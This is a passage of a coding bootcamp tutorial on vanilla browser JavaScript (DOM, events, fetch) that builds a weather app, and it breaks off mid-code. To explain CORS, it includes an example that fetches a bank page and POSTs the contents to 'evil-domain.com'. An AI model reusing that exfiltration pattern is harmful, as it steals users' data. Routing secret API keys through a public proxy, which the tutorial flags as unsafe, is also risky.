






# Vanilla JavaScript Projects :coffee:

<p align="center">
  
</p>

## Introduction
During the first four weeks of the bootcamp, we learned how to code with JavaScript using the NodeJS platform. But as you probably know, [JavaScript's beginnings were in the browser, in 1995](https://en.wikipedia.org/wiki/JavaScript#Beginnings_at_Netscape). At that time, personal computers were starting to become more powerful and there was a realization that **the web needed to become more dynamic**.

Before that time, web browsers were quite dumber than they are now. A browser would receive an HTML page from a web server -- either dynamically created or as a static file -- and [render the page](http://www.pathinteractive.com/blog/design-development/rendering-a-webpage-with-google-webmaster-tools/), making additional requests for every `` element therein. After rendering a page, the possible interactions were limited:

* The user clicks on an `A` (anchor) element on the page, making the browser issue a **`GET`** request to the URL specified in the `href` attribute of the anchor, effectively loading another page
* The user fills out a `<form>` and submits it, making the browser issue either a **`GET`** or **`POST`** request -- depending on the `method` attribute of the `<form>` -- to the URL specified in the `action` attribute of the form. This would also result in another page load.

*(This method of creating web sites and rendering them is exactly how you built your [Reddit Clone Project](https://github.com/DecodeMTL/node-express-reddit-clone), using NodeJS, Express and Pug on the server side. In this model, the browser did very little.)*

This was fine for a while but with the advent of JavaScript in browsers in 1995, things would dramatically change. Browser JavaScript is the same language you learned while studying NodeJS, but it offers dynamic functionality that is meant for the browser.

While NodeJS gives you modules to [access the computer's file system](https://nodejs.org/api/fs.html), [create HTTP servers](https://nodejs.org/api/http.html), [lower level socket servers](https://nodejs.org/api/net.html), and a [huge library of modules](http://npmjs.com/) to [connect to databases](https://www.npmjs.com/package/mysql), [read the keyboard](https://www.npmjs.com/package/prompt) and even [control robots](https://www.npmjs.com/package/johnny-five), browser JavaScript gives you:

* **[The DOM](http://htmldog.com/guides/javascript/intermediate/thedom/)**: the DOM -- Document Object Model -- is accessible using the globally predefined `document` variable. It is a representation of the HTML document that your browser has rendered as a **tree of JavaScript objects**. With the DOM, you can change any part of an already rendered web page by writing code inside a `<script>` tag using the JavaScript language you already know.
* **[Events and Callbacks](http://htmldog.com/guides/javascript/intermediate/events/)**: through the DOM, you can make a page dynamic by *listening* to various events. You can execute callback functions on page load, page scroll, mouse move, mouse click, keyboard input and many more.
* **[AJAX](http://htmldog.com/guides/javascript/intermediate/ajax/)**: AJAX -- Asynchronous JavaScript And XML -- has become a buzzword over the years. It refers to a functionality that allows you to *dynamically make HTTP requests using JavaScript code* in a `<script>` tag, *without reloading the page*.

Throughout the years, various APIs were added to browser JavaScript allowing us to do things like [drawing on a web page](http://htmldog.com/guides/javascript/advanced/canvas/), [store user information in the browser](http://htmldog.com/guides/javascript/advanced/localstorage/), and [manipulate the browser history](https://developer.mozilla.org/en-US/docs/Web/API/History_API) to name a few. Together, this set of functionalities allows us to build things like Gmail, Netflix, Google Maps and pretty much any application we can imagine, all running inside a web browser. It is this set of functionalities that allows Facebook and Twitter to show you notifications without having to refresh the page. Same thing for upvoting things on Reddit while staying in place.

They are collectively referred to as ["Vanilla JS"](http://vanilla-js.com/), in contrast with the [many](https://angularjs.org/) [frameworks](http://emberjs.com/) and [libraries](https://jquery.com/) that are built on top of them. In this course, we will be looking at two libraries built on top of browser JavaScript:

* **[jQuery](https://jquery.com/)**: jQuery was created as a response to a huge problem at the time, namely the discrepancy between JavaScript implementations in browsers. It provided a unified API to access the DOM, events, AJAX and more without having to worry about browser differences.
* **[React](https://facebook.github.io/react/)**: React is a user interface library that was created as a response to the difficulty of managing big browser-based applications using the primitive Vanilla JS functions. It turns out that manipulating the DOM directly using the `document` object is error prone at scale, and becomes quickly unmanageable. React tries to solve this problem in a *declarative manner*, "similar to SQL". Rather than calling DOM functions to manipulate the content of a page, React allows us to define user interface components in a declarative way, and automatically takes care of calling the appropriate DOM functions. The similarity to SQL lies in the fact that we never have to tell an SQL database *how* we want things to be computed, but simply what to compute. Think of it as the difference between `ORDER BY createdAt DESC` and `data.sort(function(a, b) {...})`.

---

## Projects
Before learning any of these libraries, we will work on getting familiar with Vanilla JavaScript. Since everything is built on top of it, it will pay off to know how it works. In order to do this, we will be building three front-end projects that run completely in the browser. In these projects, our web server's only role will be to produce a static `index.html` file that contains a `<script>` tag *where everything will happen*. One implication of this is that search engine crawlers like Google Bot will not be able to view the content of our applications, since *everything will happen after the page has loaded*, long after the HTTP request/response cycle has ended.

### Weather application

<p align="center">
  
</p>

We will start by building a first project **together**. It will be a simple weather application that asks the user for their city, and dynamically displays a weather box with the current temperature, basic weather conditions as well as an icon representing the current state of things.

### Flickr browser

<p align="center">
  
</p>

Even though Flickr already has an excellent web app to browse photos, we will use the Flickr API to create an infinitely scrolling browser based on a search word.

### BlackJack game

<p align="center">
  
</p>

This one is a bit extreme, but we're giving you quite a bit of code to help you. Make sure to personalize it so it doesn't look too generic ;)

---

## Baby steps
Before starting to work on the projects, we'll have to learn about the building blocks of browser-based JavaScript.

To follow along, create a file called `index.html` with the following structure:

```html
<!doctype html>
<html>
  <head></head>
  <body>
    <div id="app"></div>
    <script src="app.js"></script>
  </body>
</html>
```

Then, create an empty `app.js` file in which you'll be able to test the functions you will learn about. The browser will load `app.js` as soon as it encounters the `<script>` tag, and will execute the contained JavaScript in the context of the current page.

### Creating and manipulating elements
The DOM API can be accessed through the `document` global variable. This variable is made available to you in JavaScript running in the context of the current page, and it represents the currently displayed document.

Let's start from the JavaScript console. Open your developer tools, move to the Console tab and write the following:

```javascript
document.getElementById('app')
```

You'll get something like this:



This is the DOM in action. We queried the document for an element by its ID, and since we have a `<div id="app">` in our page, we got that back as a return value.

Now try this:

```javascript
document.getElementsByTagName('body')
```

This time notice you get something that looks like an array. Expand it and hover over the first element. You'll see it light up on the page.

Modern browsers have a way to query for elements using a CSS Selector. Try this:

```javascript
document.querySelector('#app')
```

You'll get back exactly the same element.

Let's move to our `app.js` and write the following:

```javascript
var app = document.querySelector('#app');

var theTitle = document.createElement('h1');
theTitle.innerText = "Hello World!";
```

Then, refresh the page. Hmm it looks like something is missing... When we create a new element using the DOM, we have to add it to an already existing element, or else it won't appear on the page. Add the following line to complete this:

```javascript
app.appendChild(theTitle);
```

Refresh the page one more time to see your dynamically created `<h1>` appear on the page.

Another way to accomplish the same thing is using the `innerHTML` property of an element:

```javascript
var app = document.querySelector('#app');
app.innerHTML = '<h1>Hello World!</h1>';
```

In this case the browser will parse the HTML string and create the elements on the fly. The flipside is that it will remove anything that was previously in #app, so it's not as useful as `appendChild`.

Now, modify your `index.html` to add a `<link>` to a `style.css` file. In `style.css`, write the following:

```css
.red {
  color: red;
}
```

This says that any element with the class "red" will have its text color in red. Then, open your Console and write the following:

```javascript
var h1 = document.querySelector('h1'); // there's only one right now
h1.classList.add('red');
```

As you do this, watch the text of the h1 change from its black default to red.

Sometimes, we need to manipulate the styling of an element without adding/removing a class name. We can do this using the inline `style` attribute of the element. Instead of taking a string, it's an object with one property for each style. Try the following in the console after refreshing the page:

```javascript
document.querySelector('h1').style.color = 'red';
```

It will have the same effect. It turns out that often, manipulating the classes of an element is cleaner than changing its inline style because it's easier to remove the class by using `classList.remove()`.

### Handling events
Handling events is done by calling the `addEventListener` method of a DOM element. Many types of events exist. As an example there are mouse events, form events, keyboard events.

Let's add a button to our page and do something when it is clicked. Change the code of `app.js` to the following:

```javascript
var app = document.querySelector('#app');

// Add a title
var theTitle = document.createElement('h1');
theTitle.innerText = "Hello World!";
app.appendChild(theTitle);

// Add a button
var theButton = document.createElement('button');
theButton.innerText = "click me!";
app.appendChild(theButton);

// Here's the new part!
theButton.addEventListener('click', function() {
  theTitle.classList.add("red");
});
```

Then, reload the page and try clicking on the button. Notice the title text change to red. Change the `classList.add` to `classList.toggle` and try clicking the button many times.

Move to your HTML file and put the following inside the `#app` div:

```html
<input type="text" id="textBox">
<button>click me</button>
```

Then, change the whole code of `app.js` to the following:

```javascript
var textBox = document.querySelector('#textBox');
var theButton = document.querySelector('#app button'); // CSS for "the element with tag name button inside the element with id app". We could also have given the button an ID

textBox.addEventListener('input', function() {
  console.log(this.value);
});

theButton.addEventListener('click', function() {
  alert('The value of the input box is: ' + textBox.value);
});
```

Then, reload the page, and go to the Console tab of your developer tools (they *are* open, right?). Type some text in the input box, and see the `console.log`s coming up. At any point click on the button to get an alert.

Notice the use of `this` inside the callback to the input event listener. When an event handler is called, `this` will always refer to the element on which `addEventListener` was called. This allows us to re-use the same event handler for many elements.

#### Stopping to listen to an event
If we want to stop listening to an event on an element, we have to call the `removeEventListener` method on that element. But to do this, we need to have a *reference* to the function that was passed to `addEventListener`. If we used an inline function expression, then we can't do that. Let's try with the following code:

```javascript
var textBox = document.querySelector('#textBox');
var theButton = document.querySelector('#app button'); // CSS for "the element with tag name button inside the element with id app". We could also have given the button an ID

function printValue() {
  console.log(this.value);
}

textBox.addEventListener('input', printValue);

theButton.addEventListener('click', function() {
  // When the button is clicked, stop listening to input events on the input box
  textBox.removeEventListener('input', printValue);
});
```

Try running this code in the browser, and after pressing the button the event listening should stop.

#### Default event behaviors
Some events have a default behavior attached to them. For example when you click on an `A` element, the browser will load its `href` property, effectively leaving the current page. This default behavior can be prevented by accessing the event object and calling its `preventDefault` method. When an event handler gets called, it receives the event object as its first argument. Let's see how that works...

Clear the content of the #app div in your HTML, and change `app.js` to the following code:

```javascript
var app = document.querySelector('#app');

var theLink = document.createElement('a');
theLink.innerText = 'a link to DecodeMTL';
theLink.setAttribute('href', 'http://www.decodemtl.com'); // This is how we set HTML attributes ;)
app.appendChild(theLink);

theLink.addEventListener('click', function(event) {
  event.preventDefault();
  console.log('Prevented browsing to ' + this.href + ' by using preventDefault');
});
```

Try refreshing the page and clicking on the link and nothing should happen.

#### Event bubbling
The DOM tree is a nested structure. If you click on a nested element, it seems logical that you also clicked on its parent, and that parent's parent and so on. Let's visualize this behavior with an example...

Change the content of the #app div to the following:

```html
<p id="theParagraph">
  This is a <a id="theLink" href="http://www.decodemtl.com">link</a>!
</p>
```

Then change `app.js` to the following code:

```javascript
// This gives some height to the #app div so we can click it
document.querySelector('#app').style.height = '400px';

// This makes the #app div visible. Note that the CSS background-color is written backgroundColor in the DOM ;)
document.querySelector('#app').style.backgroundColor = '#ccc';

document.body.addEventListener('click', function() {
  console.log('The body was clicked!');
})
document.querySelector('#app').addEventListener('click', function() {
  console.log('#app was clicked!');
});

document.querySelector('#theParagraph').addEventListener('click', function() {
  console.log('#theParagraph was clicked!');
});

document.querySelector('#theLink').addEventListener('click', function(event) {
  event.preventDefault(); // We need to do this otherwise we will leave the page if we click the link...
  console.log('#theLink was clicked!');
});
```

Then, refresh the page in your browser and try clicking in different places. Click on the link, then on the text inside the paragraph, and then anywhere else on the page.

With one click, up to four event handlers are getting called starting from the element that was clicked and bubbling up to the body. At any point in time, we can call the event object's `stopPropagation` method to stop this bubbling. Try adding `event.stopPropagation()` in the different event handlers, and observe the result in your browser.

<p align="center">
  
</p>

#### Event delegation :warning:
This topic is extremely important and you should understand it well before moving on. Let's look at an example by writing the following code inside the #app div of our HTML:

```html
<h1>Event delegation</h1>
<ul id="theList">
  <li>First list item</li>
  <li>Second list item</li>
  <li>Third list item</li>
  <li>Fourth list item</li>
  <li>Fifth list item</li>
</ul>
```

Then, let's try to attach an event handler to each list item, and print its inner text when it is clicked:

```javascript
var listItems = document.querySelectorAll('#theList li'); // Select all the LIs inside #theList

// It turns out that querySelectorAll does NOT return an array, but an array-like object called a NodeList
// Here's one way we can iterate over the NodeList items, using the Array prototype
Array.prototype.forEach.call(listItems, function(listItem) {
  // Add one event listener per list item
  listItem.addEventListener('click', function() {
    console.log('You clicked on: ' + this.innerText);
  });
});
```

*`NodeList` actually has a `forEach` method but it's not the same as arrays. It doesn't however have `map` or `filter` or any of the other useful array methods.*

Try running your code in the browser to show yourself that it works. Even though this code works, there are mainly two things that are wrong with it:

1. If we dynamically add new LIs to the UL after setting up the event listeners, clicking them will do nothing -- ask yourself why
2. Setting up multiple event handlers can be extremely resource intensive, and we can do much better! Imagine an image gallery with 100s of images... One event handler per image will simply not cut it.

It's not by accident that we looked at event propagation in the last section. Using the propagation, we can solve these two issues in one shot. First off though, write the following code in your developer tools Console:

```javascript
var theList = document.querySelector('#theList');

var newItem = document.createElement('li');
newItem.innerText = 'Sixth list item';
theList.appendChild(newItem);
```

Then try clicking on the sixth LI that was added dynamically and prove to yourself that nothing happens. Now let's fix it!

Change the code of `app.js` to the following:

```javascript
var theList = document.querySelector('#theList');

theList.addEventListener('click', function(event) {
  // While `this` represents the #theList element, event has a property called `target` which represents the actual originator of the event. We can use this to our advantage!

  // First, check if the target is an LI that is a direct child of the list:
  if (event.target.parentNode === theList) {
    // We definitely clicked on an LI
    console.log('You clicked on: ' + event.target.innerText);
  }
});
```

With this code in place, we should get the same initial behavior as the previous code. One advantage is that we only have a single event handler, no matter how many LIs. Now try running the following code in your console:

```javascript
var theList = document.querySelector('#theList');

var newItem = document.createElement('li');
newItem.innerText = 'Sixth list item';
theList.appendChild(newItem);
```

Then try clicking on the sixth LI and notice the difference. It gets console.logged! This is event delegation in a nutshell, and you should use it wherever you can. This is also a great transition for the next section where we will learn about AJAX. Making HTTP requests in the context of a web page will often result in adding new elements dynamically. Setting up event delegation will enable us to listen to clicks on those new elements without having to manually attach event handlers to each one of them :)

### Making HTTP requests
Browser JavaScript would be pretty boring if all you could do was manipulate the page. What makes things really interesting is the ability to make HTTP requests in the context of an already loaded web page. This enables us to load external information, then use what we already learned to make that information appear on the page.

Originally, this was accomplished with a contraption called `XMLHttpRequest` and the API for it was less than stellar. Modern browsers offer a much better alternative using the globally available `fetch` function. As a bonus, `fetch` uses Promises to give back its results, allowing us to write much nicer code.

The process of fetching external information and updating the page as a result is often called AJAX, which stands for "Asynchronous JavaScript And XML". After four weeks of bootcamping, we now understand what asynchronous means. We also know what JavaScript means. We haven't really looked at XML. It turns out to be quite a heavy data format, both in terms of its size and its parsing. Many new APIs prefer to use the JSON format instead. Since JSON is native to JavaScript, this is great for us!

Let's look at how we can use `fetch`, at first only to make an HTTP request, and then eventually to build something with it. Let's start by changing the code of `app.js` to the following:

```javascript
fetch('http://www.rbcroyalbank.com')
.then(function(response) {
  return response.text(); // Parsing the response as text returns another Promise so we chain it
})
.then(function(textResponse) {
  console.log(textResponse);
});
```

Try refreshing the browser and look at your Console tab.



What's that? An error! What the browser is telling us here is that we're not allowed to see the response from the Royal Bank site. Since this request is running in the context of our web browser, this makes a LOT of sense. Because such a request would have access to our cookies, seeing the response could allow us to retrieve some sensitive information from anyone who loads up our web page in *their* browser.

Imagine that we were allowed to see the content of this 3rd party site. Here's a hand-waving example of what we could do:

```javascript
fetch('https://www.onlinebank.com/accounts')
.then(function(response) {
  return response.text();
})
.then(function(textResponse) {
  // We now have an HTML page with the user's bank accounts! Let's send it to ourselves!!
  fetch('http://www.evil-domain.com/bank-accounts', {
    method: 'POST',
    body: textResponse
  });
});
```

Having setup such a page, we can then send the link to unsuspecting people and harvest all their banking information. Browsers prevent this behavior by default, and only allow us to look at the response of `fetch` requests when they are made to our own domain name, called the Origin.

A system called CORS -- Cross-Origin Resource Sharing -- allows web servers to cooperate with web application builders. By setting appropriate headers in the HTTP response, a web server can tell the browser that the response can be allowed to be seen by the originator of the AJAX request. Your online bank would *never* do such a thing, but a lot of APIs offering publicly available information will enable CORS on some of their endpoints.

One example of such an API is the Reddit JSON API. This is probably the last time we will look at Reddit in this bootcamp, because quite frankly we're starting to be fed up with it ;) Let's look at an example of making an AJAX call to the Reddit JSON API, parsing the result and doing something with it:

```javascript
fetch('https://www.reddit.com/r/montreal.json')
.then(function(response) {
  return response.json(); // Parsing as JSON returns a Promise, let's chain it
})
.then(function(jsonResponse) {
  var posts = jsonResponse.data.children;

  posts.forEach(function(post, i) {
    console.log('Post #' + (i+1) + ': ' + post.data.title);
  });
});
```

Here we are retrieving the front page of r/Montreal and prining each title on the Console. Try it for yourself. From then on, the possibilities are endless. Rather than printing the result in the console, we can construct some DOM elements and display them on the page. Let's try to do that! Write the following code in `app.js`:

```javascript
fetch('https://www.reddit.com/r/montreal.json')
.then(function(response) {
  return response.json(); // Parsing as JSON returns a Promise, let's chain it
})
.then(function(jsonResponse) {
  jsonResponse.data.children
  .map(function(post) {
    post = post.data; // Reddit has a weird format ;)

    // Create a box for each post
    var linkBox = document.createElement('p');

    // Create a link element for each post
    var link = document.createElement('a');
    link.setAttribute('href', post.url);
    link.setAttribute('target', '_blank'); // Make the link open in a new tab
    link.innerText = post.title;

    // Add the link to the paragraph
    linkBox.appendChild(link);

    // Return the paragraph from the map callback
    return linkBox;
  })
  .forEach(function(linkParagraph) {
    document.body.appendChild(linkParagraph);
  });
});
```

Try it again by refreshing the browser. As you can imagine, this AJAX code could be executed as a result of an event, a timer or anything else that you can implement using JavaScript.

### "Conclusion"
By marrying events, AJAX calls and DOM manipulation we can build fully functioning web applications that run in the browser. We'll do that in the next section by building three small web applications. One of the things that we'll see while doing this is that directly using the DOM can be quite cumbersome, and managing the state of our application can quickly get out of hand. Next week, we'll start looking at how to solve some of those problems in a declarative way using the [React UI library built by Facebook](https://facebook.github.io/react/).

---

## Project #1: Weather App

### Introduction
For this first project we will be holding your hand throughout. We will build a basic version of a weather application that shows the current temperature in a city. Here's what the final basic version of the project will look like:

<p align="center">
  
</p>

As discussed in class, if you want to use this project as part of your portfolio it would be interesting for you to do more than the basic version. Some suggestions will be given to you at the end of the workshop instuctions :)

### Preparing
To prepare coding for the project, we will get ourselves some keys for the two APIs we will use.

#### Dark Sky Weather API
Let's get an API key for the Dark Sky API...

  1. Go to https://darksky.net/dev/ and signup
  2. Confirm your email
  3. Login and find your API key here https://darksky.net/dev/account
  4. Copy your API key somewhere, and we'll add it to the code later

<p align="center">
  
</p>

#### Google Maps Geocoding API
Let's get an API key for the Google Maps Geocoding API...

  1. Go to https://developers.google.com/maps/documentation/geocoding/get-api-key
  2. Click on "GET A KEY"
  3. Enter a name for your application
  4. Copy your API key somewhere, and we'll add it to the code later

<p align="center">
  
</p>

### Let's start to code!
Our app will be composed of a basic `index.html` file that has the main user interface, and an `app.js` where all the interesting stuff will happen.

Create an `index.html` file with the following content:

```html
<!doctype html>
<html>
  <head>
    <meta charset="utf-8">
    <title>Weather App</title>
    <link rel="stylesheet" href="style.css">
  </head>
  <body>
    <div id="app">
      <h1>Weather App!</h1>
      <div class="main-app">
        <form class="city-form">
          <input type="text" class="city-input">
          <button type="button" class="get-weather-button">Get Weather!</button>
        </form>
        <div class="city-weather">
          <!-- the content diplayed here will be generated by DOM operations :) -->
        </div>
      </div>
    </div>
    <script src="app.js"></script>
  </body>
</html>
```

This HTML file lays out the structure of our application. As will always be the case, everything will happen inside the #app div. This is better than throwing everything directly in the body. Think of it as a namespace.

Then, let's create the `app.js` that our HTML is referring to. The first thing we'll do is add our API keys to the JavaScript file. Before that though, let's make sure our API keys are working.

Go to your browser and open the `index.html` file that you just created. Open the developer tools and move to the Console tab. Then, try running the following command, **making sure to replace the part that says `<YOUR API KEY HERE>` with your API key**.

```javascript
fetch('https://api.darksky.net/forecast/<YOUR API KEY HERE>/37.8267,-122.4233')
.then(response => response.json())
.then(data => console.log(data))
```

Oops! What happened? Dark Sky is preventing us to make HTTP requests to it from a browser. In a real application, this would make sense because your API key should be kept secret. If we were building a real application, we would have to create our **own web server that acts as a proxy to the Dark Sky API**. This way we could keep our API key hidden on the server, and even add our own logic to do rate limiting, caching and so on.

Since we are in development mode here, we are going to use a shortcut. A service called [CORS Anywhere](https://cors-anywhere.herokuapp.com/) will allow us to proxy our requests through it, and that service will automatically add the appropriate `Access-Control-Allow-Origin` header in its response. But wait... How can such a service exist? Isn't it unsafe to allow us to make AJAX calls to a site that doesn't allow it in the first place? Well, not really. If our browser is making request to the CORS Anywhere domain, then the cookies of the original website will not be passed along, so we will get a pretty generic response. In our case, we're using this to bypass the Dark Sky protection of our API key. We simply have to know that what we're doing would be bad in a real application where our secret API key would become exposed.

Let's try that same request but make it go thru the CORS Anywhere proxy:

```javascript
fetch('https://cors-anywhere.herokuapp.com/https://api.darksky.net/forecast/<YOUR API KEY HERE>/37.8267,-122.4233')
.then(response => response.json())
.then(data => console.log(data))
```

Finally we are getting some data! The URL looks weird, but basically everything after the `herokuapp.com/` will be passed as the path to the proxy, and the proxy will make the request on our behalf from the server-side, safe of any cookies.

The Google Maps API does not have this limitation, so we can geocode directly from the browser. Try it anyway just to be sure that your API key works:

```javascript
fetch('https://maps.googleapis.com/maps/api/geocode/json?address=montreal&key=<YOUR API KEY HERE>')
.then(response => response.json())
.then(data => console.log(data))
```

Now that we've tested our APIs, let's add the necessary information to our `app.js` file. Create the file and add the following code in it:

```javascript
var DARKSKY_API_URL = 'https://api.darksky.net/forecast/';
var DARKSKY_API_KEY = 'YOUR API KEY HERE';
var CORS_PROXY = 'https://cors-anywhere.herokuapp.com/';

var GOOGLE_MAPS_API_KEY = 'YOUR API KEY HERE';
var GOOGLE_MAPS_API_URL = 'https://maps.googleapis.com/maps/api/geocode/json';
```

Next, we'll create some utility functions that will allow us to access the two APIs and return only the data that we need.

Let's start by creating a function called `getCoordinatesForCity`. The function will take a city string as parameter, and return a Promise for a coordinates object. Here is the code of the function, add it to your `app.js`:

```javascript
// This function returns a promise that will resolve with an object of lat/lng coordinates
function getCoordinatesForCity(cityName) {
  // This is an ES6 template string, much better than verbose string concatenation...
  var url = `${GOOGLE_MAPS_API_URL}?address=${cityName}&key=${GOOGLE_MAPS_API_KEY}`;

  return (
    fetch(url) // Returns a promise for a Response
    .then(response => response.json()) // Returns a promise for the parsed JSON
    .then(data => data.results[0].geometry.location) // Transform the response to only take what we need
  );
}
```

Test your function by going in the browser and refreshing your page. Since the `app.js` code we are writing is in the **global scope**, the function we just created is available. Call it like so:

```javascript
getCoordinatesForCity("montreal").then(console.log)
```

And make sure that you see an object with lat/lng properties printed out.

Then we'll add our second utility function called `getCurrentWeather`. It will take an object with lat/lng and query the Dark Sky API for the current weather. We only care about the current weather so we can optimize our API call. Let's add this to our `app.js`:

```javascript
function getCurrentWeather(coords) {
  // Template string again! I hope you can see how nicer this is :)
  var url = `${CORS_PROXY}${DARKSKY_API_URL}${DARKSKY_API_KEY}/${coords.lat},${coords.lng}?units=si&exclude=minutely,hourly,daily,alerts,flags`;

  return (
    fetch(url)
    .then(response => response.json())
    .then(data => data.currently)
  );
}
```

Same idea, different API. The `units=si&exclude=minutely,hourly,daily,alerts,flags` part in the query string of the URL is explained in the [Dark Sky API documentation](https://darksky.net/dev/docs/forecast). Basically `units=si` means we'll get things back in celcius and kilometers, and the `exclude` says to only send us the `currently` data. It makes the API response smaller and therefore faster to transfer across the wire.

Again let's test our function by refreshing the browser and trying the following code:

```javascript
getCurrentWeather({lat: 45.5, lng: -73.5}).then(console.log)
```

This should print an object in the console that contains a bunch of weather properties. For the basic version we will only be using the temperature.

The two functions we created will make up our basic flow of data. We can test them together in the browser's console this way:

```javascript
getCoordinatesForCity("montreal")
.then(getCurrentWeather)
.then(data => console.log(`The current temperature is ${data.temperature}`));
```

This should print out the current temperature for the city you asked for.

:warning: :warning: :warning: **Before moving on the the next section, make sure that you understand everything that we did so far. Otherwise, if you simply copied and pasted what we gave you without understanding it, you will not have learned anything. If you cannot explain exactly what is going on, then ask one of your classmates or a TA to be sure.**

### Wiring it up to the DOM
We are building this project following a logical progression. If this was a console-based project, we would be done. The last section gave us the data that we needed, and we were able to print it on the console.

However, this project also has a user interface component. In the browser, the user interface is created by using HTML and CSS, along with JavaScript for DOM manipulations and events. This is exactly what we'll do in this section.

We already wrote the HTML for the user interface, and the CSS will be left to you as an optional but strongly suggested exercise. Let's write the JavaScript code for the UI now! First, let's create one variable for each DOM element we will need to target. Add the following code to `app.js`, after the two functions you wrote in the last section:

```javascript
var app = document.querySelector('#app');
var cityForm = app.querySelector('.city-form');
var cityInput = cityForm.querySelector('.city-input');
var getWeatherButton = cityForm.querySelector('.get-weather-button');
var cityWeather = app.querySelector('.city-weather');
```

Notice that we are introducing a new thing here: the `querySelector` method does not only exist on the document object, but also on all the elements inside the document. If we call `querySelector` on an element, we will only get back elements that are its descendants. This is much more robust than querying the whole document.

Now that we have a reference to all the needed DOM elements, let's wire up an event handler. We'll do it a first time the wrong way, then we'll see why it's wrong, and we'll fix it after :)

What we want to do is setup the app so that when the user clicks on the "Get Weather!" button, we start the process of fetching the data. Let's add the following code at the end of our `app.js`:

```javascript
getWeatherButton.addEventListener('click', function() {
  var city = cityInput.value; // Grab the current value of the input

  getCoordinatesForCity(city) // get the coordinates for the input city
  .then(getCurrentWeather) // get the weather for those coordinates
  .then(function(weather) {
    cityWeather.innerText = 'Current temperature: ' + weather.temperature;
  });
});
```

Refresh your browser, enter a city name and click the "Get Weather!" button. Wait a few seconds and you should see a message displayed in the page with the current temperature. We just AJAXed!

Now let's see why this is not the best way to setup our event... Refresh your browser, type a city name in the input field, and press ENTER on your keyboard. What's happening? Well by **default**, the browser tries to submit the form using the standard browser mechanism. Except our form is not meant to be submitted. Let's fix this!

First, go back to your HTML and change the `button type="button"` to `button type="submit"`. The button now becomes a submit button for the form. This means that now, whether you click the button or press ENTER in the input field, the form will first fire off a `submit` event. Let's change our event code a little bit to this:

```javascript
cityForm.addEventListener('submit', function(event) { // this line changes
  event.preventDefault(); // prevent the form from submitting

  // This code doesn't change!
  var city = cityInput.value;

  getCoordinatesForCity(city)
  .then(getCurrentWeather)
  .then(function(weather) {
    cityWeather.innerText = 'Current temperature: ' + weather.temperature;
  });
});
```

Now refresh the browser and try again. You should get a consistent behavior whether you press ENTER in the input field or click the "Get Weather!" button. We are done with the basics. Congrats :)

### Cleaning things up a bit...
Let's clean up our code a bit in two ways. First off notice that we're not using the `getWeatherButton` variable anymore so let's remove it from the code.

Then, let's clean up all the global variables that we just polluted our scope with. Whenver JavaScript runs in the context of your web page, it runs in the global scope. As you already know, one way to create a new scope in JavaScript is to write code inside a function. It turns out that all the code that we wrote in `app.js` doesn't need to expose any variables to the outside world. We only used those variables to help run our logic. In order to fix this, we will wrap **ALL** the code that we wrote inside a contraption called [IIFE, or Immediately Invoked Function Expression](http://benalman.com/news/2010/11/immediately-invoked-function-expression/). The code of `app.js` will look like this:

```javascript
(function() {
  var DARKSKY_API_URL = 'https://api.darksky.net/forecast/';
  var DARKSKY_API_KEY = 'YOUR API KEY HERE';
  var CORS_PROXY = 'https://cors-anywhere.herokuapp.com/';

  var GOOGLE_MAPS_API_KEY = 'YOUR API KEY HERE';
  var GOOGLE_MAPS_API_URL = 'https://maps.googleapis.com/maps/api/geocode/json';

  function getCurrentWeather(coords) {
    var url = `${CORS_PROXY}${DARKSKY_API_URL}${DARKSKY_API_KEY}/${coords.lat},${coords.lng}`;

    return (
      fetch(url)
      .then(response => response.json())
